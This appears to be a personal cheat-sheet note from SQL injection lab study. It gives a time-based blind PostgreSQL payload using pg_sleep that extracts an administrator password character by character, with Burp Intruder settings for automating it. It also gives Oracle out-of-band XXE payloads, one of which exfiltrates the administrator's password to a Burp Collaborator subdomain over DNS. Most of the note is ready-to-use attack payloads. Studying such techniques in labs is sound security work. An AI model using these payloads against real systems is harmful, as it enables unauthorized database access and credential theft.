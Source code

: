 
Enumeration of variable
```
' || (select case when (COLUMN='administrator' and substring(COLUMN_password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select case when (COLUMN='administrator' and substring(COLUMN_password,§1§,1)='§a§') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
	```
	- Set the attack to Cluster Bomb and load the payloads

**(IMPORTANT)** Burpsuite Testing
	- Create new ressource pool when bruteforcing length with 1 threat (10 wont allow the reply time to responde and be captured by BurpSuite)
	- Also when launching attack add a column for response time (Response Received)


## Out-of-Band

Steps
- Try DNS lookup
- Try DNS lookup with data exfiltration

Example Cookie Request
![[Pasted image 20221206184026.png]]

DNS Lookup (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

UNION Query                 ---> SQL Vulnerability


DNS Lookup with Data Exfiltration (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--'
```

UNION Query                 ---> SQL Vulnerability
More information in the Cheat Sheet

The response request will be appended to the subdomain (example.ca ---> answer.example.ca)